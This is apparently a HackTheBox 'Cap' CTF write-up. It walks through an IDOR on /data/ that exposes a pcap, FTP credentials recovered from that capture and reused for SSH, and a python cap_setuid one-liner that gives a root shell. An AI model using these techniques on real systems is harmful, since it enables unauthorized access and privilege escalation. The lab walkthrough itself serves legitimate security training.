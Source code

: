 ```yaml
---
title: Hackthebox - Cap
date: 2021-06-06 00:00:00 +0530
categories: [hackthebox, linux]
tags: [parameter manipulation, pcap analysis, python setuid capability]     # TAG names should always be lowercase
image: /assets/img/posts/cap/cap_banner.png
---
```



![](/assets/img/posts/cap/cap_banner.png)



<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.245 cap.htb

**nmap scan:**
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
... [snip] ...
|_http-server-header: gunicorn
|_http-title: Security Dashboard
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

* **Port 80** Running gunicorn server.
  * **[gunicorn](https://gunicorn.org/):** The Gunicorn "Green Unicorn" is a Python Web Server Gateway Interface HTTP server. It is a pre-fork worker model, ported from Ruby's Unicorn project.

# Foothold

## Parameter Manipulation

Going through the wep app found "Parameter Manipulation" in `/data/` which allows to access resources that should not be accessible.

![](/assets/img/posts/cap/web-vuln.png)

changing value to `0` give access stored pcap file on the server

![](/assets/img/posts/cap/file-0.png)

download the pcap file
```bash
❯ wget http://cap.htb/download/0
--2021-06-06 18:56:34--  http://cap.htb/download/0
Resolving cap.htb (cap.htb)... 10.129.119.229
Connecting to cap.htb (cap.htb)|10.129.119.229|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9935 (9.7K) [application/vnd.tcpdump.pcap]
Saving to: ‘0’

0               100%[=======>]   9.70K  --.-KB/s    in 0.002s  

2021-06-06 18:56:35 (4.39 MB/s) - ‘0’ saved [9935/9935]
```

## PCAP file analysis

open it in wireshark and view `tcp.stream eq 3` which contains ftp traffic packet.

![](/assets/img/posts/cap/tcp-stream3.png)

and get ftp creds: `nathan:Buck3tH4TF0RM3!`

ftp have read access to file system but nothing interesting here.

![](/assets/img/posts/cap/ftp-access.png)

but same creds work for ssh login because user "nathan" is in the box.

![](/assets/img/posts/cap/ssh-login.png)

# Privesc

## python with `setuid` capability

Found `cap_setuid` capability in python3

![](/assets/img/posts/cap/python-cap.png)

[capabilities man page](https://man7.org/linux/man-pages/man7/capabilities.7.html): Linux capabilities are special attributes in the Linux kernel that grant processes and binary executables specific privileges that are normally reserved for processes whose effective user ID is 0

**CAP_SETUID** Allow changing of the UID (set UID of root in you process). That means `setuid()` sets the effective user ID of the calling process.

and python have `setuid()` capability, that means python command allow user to set effective userID for its calling process.

![](/assets/img/posts/cap/python-cap-demo.png)

gtfobins also have exploit for [python capabilities](https://gtfobins.github.io/gtfobins/python/#capabilities)

**exploit:** `python -c 'import os; os.setuid(0); os.system("/bin/sh")'`
```bash
nathan@cap:~$ python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```